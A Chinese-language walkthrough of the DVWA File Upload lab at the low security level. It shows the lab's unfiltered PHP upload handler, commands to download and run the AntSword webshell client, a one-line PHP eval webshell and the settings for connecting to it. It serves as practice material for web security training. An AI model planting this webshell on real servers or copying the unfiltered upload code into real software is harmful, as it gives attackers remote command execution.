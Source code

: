 <center>File Upload文件上传</center>





[toc]







## File Upload文件上传

> 文件上传







### 1. low

> 低级
>
> 代码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
```

> 中国蚁剑

```shell
# 下载
wget https://github.com/AntSwordProject/AntSword-Loader/releases/download/4.0.3/AntSword-Loader-v4.0.3-linux-x64.zip

# 解压
unzip AntSword-Loader-v4.0.3-linux-x64.zip

# 运行
./AntSword
```

> 没有做任何过滤，上传`一句话木马`

```php
<?php eval($_POST['cmd']); ?>
```

> 蚁剑连接:

```shell
url  =  木马地址
密码  =  cmd
```

